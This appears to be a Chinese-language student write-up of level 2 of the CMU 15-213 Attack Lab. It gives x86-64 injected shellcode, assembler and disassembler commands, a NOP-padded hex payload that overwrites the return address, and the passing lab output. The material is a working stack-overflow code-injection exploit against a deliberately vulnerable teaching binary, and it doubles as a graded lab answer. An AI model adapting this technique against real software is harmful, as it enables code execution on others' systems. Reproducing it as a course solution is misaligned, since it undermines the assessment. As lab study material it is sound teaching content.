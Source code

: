 ## 第二关

需要植入的指令为：
```nasm
; exploit.s
mov  edi, 0x59b997fa ; cookie
push 0x004017ec      ; address of touch2()
ret
```
先汇编，再反汇编：
```shell
$ nasm -f elf64 -o exploit.o exploit.s
$ objdump -d exploit.o
```
得以下输出（⚠️ 汇编代码换成了 [ATT 格式](../3_machine_level_programming.md#汇编代码格式)）：
```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

为便于调试，按每行 8 字节排列，并以 `0x90` 即 `nop` 指令占位：
```c
/* exploit.txt */
/* 0x5561dc78 */ 90 90 90 90 90 90 90 90
/* 0x5561dc80 */ bf fa 97 b9 59 /* mov  */ 90 90 90
/* 0x5561dc88 */ 68 ec 17 40 00 /* push */ 90 90 90
/* 0x5561dc90 */ c3 /* retq */ 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 40 */
```

```shell
$ cat exploit.txt | ./hex2raw | ./ctarget -q
```

最终得以下输出：
```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:90 90 90 90 90 90 90 90 BF FA 97 B9 59 90 90 90 68 EC 17 40 00 90 90 90 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 
```
